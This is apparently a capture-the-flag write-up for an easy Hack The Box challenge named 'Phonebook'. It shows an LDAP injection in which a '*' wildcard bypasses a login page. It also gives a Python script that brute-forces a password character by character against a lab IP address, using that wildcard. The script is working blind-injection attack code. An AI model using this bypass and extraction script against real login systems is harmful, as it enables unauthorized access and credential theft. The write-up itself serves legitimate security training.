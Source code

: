 # Phonebook

## Difficulty = Easy

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/5e012325-bdd9-4184-9158-3f23a60b77ec)

---

Navigating to the website, we get a login page:

![](https://i.imgur.com/sqmR180.png)

- First of all we view page-source

![](https://i.imgur.com/NDjFIy3.png)

- We can see that the version of **phonebook** has been exposed, which is `phonebook 9.8.2020`
- Pasting this on google should give us more information

![](https://i.imgur.com/ALJAIgQ.png)
Read more from [here](https://portswigger.net/kb/issues/00100500_ldap-injection)

- Since characters like `();,*|&= and whitespaces` should be blocked, let try them out

![](https://i.imgur.com/uSIvzN0.png)

- Nothing works except from `*`, Now we have successfully logged in, let search if we have user **Reese** as said in the login page

- Yes we have user reese, i then started searching for keywords like, r, e and s

![](https://i.imgur.com/IyaFgss.png)
![](https://i.imgur.com/V7dqFm0.png)

- After much enumeration, i notice that i have to bruteforce the login page to get a flag, here is a python script that will help us:

```python
import requests
import string

headers = {"UserAgent" : "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0"}
url = "http://167.99.84.37:32125/login"

chars = string.ascii_letters
chars += ''.join(['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', '`', '~', '!', '@', '$', '%', '&', '-', '_', "'"])

counter = 0
flag = "HTB{"

while True:
    # if all chars are not correct means we previous already found the flag
    if counter == len(chars):
        print(flag + "}")
        break

    # creates something like HTB{a*}
    password = flag + chars[counter] + "*}"
    print("Trying: " + password)

    data = {"username" : "Reese", "password" : password}
    response = requests.post(url, headers=headers, data=data)
    
    if (response.url != url + "?message=Authentication%20failed"):
        # possible flag since we still using * at the end: e.g HTB{abc_*}.
        # append chars[] so that we not need to deal with removing "*}" as compared to if we assign password variable to flag variable
        flag += chars[counter]
        counter = 0
    else:
        # increment the char since we might not have found the right letter
        counter += 1
```

- It worked, we got a flag:

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/7074c766-80cb-433d-b17f-e191223a10c1)

<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>
